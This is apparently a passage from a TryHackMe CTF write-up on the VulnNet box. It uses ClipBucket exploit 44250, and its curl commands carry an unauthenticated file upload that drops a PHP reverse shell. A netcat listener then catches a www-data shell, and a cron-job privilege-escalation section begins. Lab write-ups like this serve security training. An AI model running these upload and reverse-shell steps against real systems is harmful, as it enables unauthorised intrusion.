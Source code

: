 ------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ClipBucket &lt; 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection                                                  | php/webapps/44250.txt
ClipBucket &lt; 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection                                                  | php/webapps/44250.txt

┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ locate php/webapps/44250.txt
/usr/share/exploitdb/exploits/php/webapps/44250.txt
                                                                                                                                                                       
┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/44250.txt ~/Desktop/CTF/THM-CTF/VulnNet/click.txt
                                                                                                                                                                       
┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ ls                          
click.txt  hash.txt  knockpy_report</code></pre><blockquote id="f0a21510-e4b6-477f-bd04-83e61d753d8e" class="">ClipBucket is an open source <strong>video sharing platform</strong> that allows users to <mark class="highlight-red_background"><strong>upload</strong></mark>, share, and manage their videos. It is written in PHP and uses MySQL for its database. It also includes a wide range of features such as user management, video conversion, video embedding, and more.</blockquote><p id="5894cc4d-1844-49db-b2be-84c23e08481e" class=""><strong>So to get reverse shell we have to explot </strong><strong><mark class="highlight-red_background">File Upload Vuln </mark></strong><a href="https://t.me/mrnazu/626"><strong>| curl</strong></a></p><pre id="8162aeec-183c-44ab-b1ca-7f3764db818e" class="code"><code>2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F &quot;file=@pfile.php&quot; -F &quot;plupload=1&quot; -F &quot;name=anyname.php&quot;
&quot;http://$HOST/actions/beats_uploader.php&quot;

$ curl -F &quot;file=@pfile.php&quot; -F &quot;plupload=1&quot; -F &quot;name=anyname.php&quot;
&quot;http://$HOST/actions/photo_uploader.php&quot;</code></pre></div></p><ul id="30cd4025-02cb-43b1-9ed0-1d492dd3fb19" class="to-do-list"><li><div class="checkbox checkbox-on"></div> <span class="to-do-children-checked">PHP Reverse shell</span></li></ul><ul id="4f2d6fd0-06d4-4948-8a95-496502988733" class="to-do-list"><li><div class="checkbox checkbox-on"></div> <span class="to-do-children-checked">net cat to lestion</span></li></ul><pre id="35feef4b-316b-47b1-8da3-62c1f2fb0247" class="code"><code>┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ curl -u developers:9972761drmfsls -F &quot;file=@reverse.php&quot; -F &quot;plupload=1&quot; -F &quot;name=reverse.php&quot; &quot;http://broadcast.vulnnet.thm/actions/beats_uploader.php&quot; creating file{&quot;success&quot;:&quot;yes&quot;,&quot;file_name&quot;:&quot;165752453575eede&quot;,&quot;extension&quot;:&quot;php&quot;,&quot;file_directory&quot;:&quot;CB_BEATS_UPLOAD_DIR&quot;}</code></pre></li></ul><p id="ac6a8e48-2eed-4c65-8259-ff58c843b411" class=""><strong>then go to ⇒ </strong><strong><code><a href="http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/">http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/</a></code></strong><strong> then click and open ur reversh shell</strong></p><pre id="9ccb40f8-5ccd-4296-bdfd-9da027a3f0ce" class="code"><code>┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ nc -lvlp 1234
listening on [any] 1234 ...
connect to [10.18.29.75] from vulnnet.thm [10.10.76.135] 55184
Linux vulnnet 4.15.0-134-generic #138-Ubuntu SMP Fri Jan 15 10:52:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:52:45 up 4 min,  0 users,  load average: 0.27, 1.21, 0.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can&#x27;t access tty; job control turned off</code></pre><h1 id="acc79ceb-83ba-44e9-8634-891451eaf275" class="">Privilege Escalation:</h1><h3 id="c52fc437-9645-404a-b02b-912a8466c819" class="">cronjob:</h3><blockquote id="be2b6eda-df86-4cd4-a364-ee5e3bf7ce22" class="">A cron job is a command or script that is <strong>scheduled</strong> to run at a specified time or interval. The cron job is usually set up using the crontab command, which allows users to edit their cron table (crontab) and define commands to run periodically on a given schedule.<p id="077a9798-fa07-437b-8690-2d5fc81b4561" class="">To create a cron job, you must first edit your crontab file using the command:
<code>crontab -e</code></p><p id="31ad5c20-6fee-4607-8d96-bb9703b06765" class="">This will open an editor where you can enter your desired commands and specify when they should be executed</p></blockquote><p id="151172f8-7226-4c8e-b0c2-ab88c5dbd9e1" class="">
</p><p id="b824663c-d6d9-49a0-89df-67c6e2e03af8" class="">